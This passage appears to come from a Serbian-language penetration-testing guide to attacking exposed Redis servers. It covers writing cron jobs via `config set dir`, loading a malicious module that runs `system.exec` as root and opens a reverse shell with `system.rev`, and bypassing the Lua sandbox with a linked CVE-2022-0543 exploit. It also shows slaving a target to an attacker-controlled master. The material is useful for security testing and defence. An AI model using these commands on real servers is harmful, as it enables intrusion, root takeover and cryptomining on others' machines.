 Poslednji primer je za Ubuntu, za **Centos**, gore navedena komanda treba da bude: `redis-cli -h 10.85.0.52 config set dir /var/spool/cron/`

Ova metoda takođe može biti korišćena za zaradu bitkoina: [yam](https://www.v2ex.com/t/286981#reply14)

### Učitavanje Redis modula

1. Prateći uputstva sa [https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) možete **kompajlirati redis modul za izvršavanje proizvoljnih komandi**.
2. Zatim vam je potreban način da **učitate kompajlirani** modul
3. **Učitajte učitani modul** u toku izvršavanja sa `MODULE LOAD /putanja/do/mymodule.so`
4. **Prikažite učitane module** da proverite da li je ispravno učitan: `MODULE LIST`
5. **Izvršite** **komande**:

```
127.0.0.1:6379> system.exec "id"
"uid=0(root) gid=0(root) groups=0(root)\n"
127.0.0.1:6379> system.exec "whoami"
"root\n"
127.0.0.1:6379> system.rev 127.0.0.1 9999
```

6. Isključite modul kad god želite: `MODULE UNLOAD mymodule`

### Bypass LUA sandbox

[**Ovde**](https://www.agarri.fr/blog/archives/2014/09/11/trying\_to\_hack\_redis\_via\_http\_requests/index.html) možete videti da Redis koristi komandu **EVAL** za izvršavanje **Lua koda u pesku**. U povezanom postu možete videti **kako to zloupotrebiti** koristeći funkciju **dofile**, ali [očigledno](https://stackoverflow.com/questions/43502696/redis-cli-code-execution-using-eval) to više nije moguće. U svakom slučaju, ako možete **zaobići Lua** pesak, možete **izvršiti proizvoljne** komande na sistemu. Takođe, iz istog posta možete videti neke **opcije za izazivanje DoS**.

Neki **CVE-ovi za izbegavanje LUA**:

* [https://github.com/aodsec/CVE-2022-0543](https://github.com/aodsec/CVE-2022-0543)

### Master-Slave Modul

​Sve operacije na master redisu automatski se sinhronizuju sa slave redisom, što znači da možemo smatrati ranjivost redisa kao slave redis, povezan sa master redisom koji je pod našom kontrolom, zatim možemo uneti komandu u naš redis.

```
master redis : 10.85.0.51 (Hacker's Server)
slave  redis : 10.85.0.52 (Target Vulnerability Server)
A master-slave connection will be established from the slave redis and the master redis:
redis-cli -h 10.85.0.52 -p 6379
slaveof 10.85.0.51 6379
Then you can login to the master redis to control the slave redis:
redis-cli -h 10.85.0.51 -p 6379
set mykey hello
set mykey2 helloworld
```
